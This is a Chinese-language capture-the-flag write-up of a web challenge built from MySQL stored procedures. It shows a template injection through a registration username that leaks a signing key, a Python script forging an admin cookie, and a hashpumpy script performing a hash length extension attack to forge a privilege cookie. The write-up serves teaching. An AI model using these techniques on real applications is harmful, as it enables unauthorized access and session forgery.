


打开连接后可以看到是一个注册页面，而且注册后没有登录操作，直接就会变成已登录状态且跳转到个人页面

扫到robots.txt文件，内容信息量很大

```
User-agent: *
Disallow: / # procedure:index_handler
Disallow: /admin # procedure:admin_handler
Disallow: /login # procedure:login_handler
Disallow: /post # procedure:post_handler
Disallow: /register # procedure:register_handler
Disallow: /robots.txt # procedure:robots_txt_handler
Disallow: /static/% # procedure:static_handler
Disallow: /verify # procedure:verify_handler

# Yeah, we know this is contrived :(
```

使用 `verify` 路由可以阅读到一些程序的源码 （全都是存储过程）

看到这个路由后，首先想到的是访问 `admin` 路由，但是可以看到 `admin_handler` 中存在判断： `CALL is_admin(admin)`

然后看到 `login_handler`，`login` 存储过程，可以找到设置cookie 的 `set_cookie`

```sql
BEGIN
    DECLARE signed_value TEXT;
    CALL sign_cookie(i_value, signed_value);

    INSERT INTO `resp_cookies` VALUES (i_name, signed_value) ON DUPLICATE KEY UPDATE `value` = signed_value;
END
```

以及其中的 `sign_cookie`

```
BEGIN
    DECLARE secret, signature TEXT;
    SET secret = (SELECT `value` FROM `config` WHERE `name` = 'signing_key');

    SET signature = SHA2(CONCAT(cookie_value, secret), 256);

    SET signed = CONCAT(signature, LOWER(HEX(cookie_value)));
END
```

可以发现在 `config` 表中存了一个叫做 `signing_key` 的 secret_key

那么如何取到这个 `signing_key`?

阅读了很多个存储过程后，在渲染模板中其实可以看到一个突破点，这里存在一个SSTI漏洞

首先，查看 `login_handler` 的时候，发现其中 call 了一个 `template`，在 `template` 中可以看到又 call 了一个 `template_string` 来进行渲染，看看这个代码

```sql
BEGIN
    DECLARE formatted TEXT;
    DECLARE fmt_name, fmt_val TEXT;
    DECLARE replace_start, replace_end, i INT;

    SET @template_regex = '\$\{[a-zA-Z0-9_ ]+\}';

    CREATE TEMPORARY TABLE IF NOT EXISTS `template_vars` (`name` VARCHAR(255) PRIMARY KEY, `value` TEXT);
    CALL populate_common_template_vars();

    SET formatted = template_s;
    SET i = 0;

    WHILE ( formatted REGEXP @template_regex AND i < 50 ) DO
        SET replace_start = REGEXP_INSTR(formatted, @template_regex, 1, 1, 0);
        SET replace_end = REGEXP_INSTR(formatted, @template_regex, 1, 1, 1);
        SET fmt_name = SUBSTR(formatted FROM replace_start + 2 FOR (replace_end - replace_start - 2 - 1));
        SET fmt_val = (SELECT `value` FROM `template_vars` WHERE `name` = TRIM(fmt_name));
        SET fmt_val = COALESCE(fmt_val, '');
        SET formatted = CONCAT(SUBSTR(formatted FROM 1 FOR replace_start - 1), fmt_val, SUBSTR(formatted FROM replace_end));
        SET i = i + 1;
    END WHILE;

    SET resp = formatted;

    DROP TEMPORARY TABLE `template_vars`;
END
```

可以发现，如果字符串满足 `template_regex` 那么它将会被替换成一个程序中的变量，而这些变量则来自于 `populate_common_template_vars`

```sql
BEGIN
    INSERT INTO `template_vars` SELECT CONCAT('config_', name), value FROM `config`;
    INSERT INTO `template_vars` SELECT CONCAT('request_', name), value FROM `query_params`;
END
```

所以可以考虑使用 `${config_signing_key}` 来获取sign key，但是被拦住了，提示 `Banned word used in post!`

那么这里考虑使用其它值来获取，考虑到注册后直接显示个人主页，那么尝试注册的时候将用户名设置成 `${config_signing_key}` ，注册成功后跳到个人主页成功获取到了secret key



然后算出管理员的cookie

```python
#coding=utf-8
import hashlib

signing_key = "an_bad_secret_value_nhcq497y8".encode("utf-8")
m = hashlib.sha256()
m.update("1".encode("utf-8"))
m.update(signing_key)
print(m.hexdigest() + '1'.encode('hex'))
```

得到 `admin = 3efb7d99e34432bb6405b6a95619978d4904a2f5b5d8d56b3702939c226d729431`

修改cookie后访问发现页面上什么东西都没有，看到 `admin_handler` 中存在的判断

```sql
 CALL has_priv('panel_create', can_create_panels);
 CALL has_priv('panel_view', can_view_panels);
```

查看 `has_priv` 

```sql
BEGIN
    DECLARE privs, cur_privs, cmp_priv BLOB;
    DECLARE hash, signing_key TEXT;

    SET o_has_priv = FALSE;

    SET privs = NULL;
    CALL get_cookie('privs', privs);

    IF NOT ISNULL(privs) THEN
        SET hash = SUBSTR(privs FROM 1 FOR 32);
        SET cur_privs = SUBSTR(privs FROM 33);
        SET signing_key = (SELECT `value` FROM `priv_config` WHERE `name` = 'signing_key');

        IF hash = MD5(CONCAT(signing_key, cur_privs)) THEN
            WHILE ( LENGTH(cur_privs) > 0 ) DO
                SET cmp_priv = SUBSTRING_INDEX(cur_privs, ';', 1);
                IF cmp_priv = i_priv THEN
                    SET o_has_priv = TRUE;
                END IF;
                SET cur_privs = SUBSTR(cur_privs FROM LENGTH(cmp_priv) + 2);
            END WHILE;
        END IF;
    END IF;
END
```

可以看到 `priv` 的值其实就是 `md5(priv_signing_key + privs) + privs`，而这种加密方式，存在哈希长度扩展攻击的可能，使用hashpump来进行攻击，写个脚本算一下priv

```python
#coding=utf-8
import requests
import hashpumpy
import binascii
import hashlib

if __name__ == "__main__": 
    for i in range(1,33):
        res = hashpumpy.hashpump("60f0cc64f5b633cf502d25ea561a98bf", "\x00", ";panel_create;panel_view;", i)
        # use res[1] as res[1][1:] to ignore the first byte!
        res0 = res[0]
        res1 = binascii.hexlify(res[1][1:]).decode("utf-8")       
        m = hashlib.sha256()    # sha256 (
        m.update(str.encode(res[0]))    #      (md5(signing_key, privs)
        m.update(res[1][1:])    #      + privs)
        m.update(str.encode('an_bad_secret_value_nhcq497y8'))   # + secret)
        priv = m.hexdigest()+ binascii.hexlify(str.encode(res0)+res[1][1:]).decode("utf-8") # + (md5(signing_key, privs) + privs)
        cookies = {
            "email": "1d01019d1418a8eef8b22d46bcf40f4cef3475bfe37496f42c3cc3f391a5bfa934757575407176712e696d",
            "admin": "3efb7d99e34432bb6405b6a95619978d4904a2f5b5d8d56b3702939c226d729431",
            "privs": priv
        }
        req = requests.get("http://web.chal.csaw.io:3306/admin", cookies=cookies)
        if len(req.text) != 287:
            print(priv)
            break
```

替换后可以看到一个panel，随便输入一个东西会提示 `no such table`，于是尝试输入 config，返回了表内容，然后提示中有说到

`Your mission is to read out the txt table in the flag database.`

于是输入 `flag.txt` ，得到flag

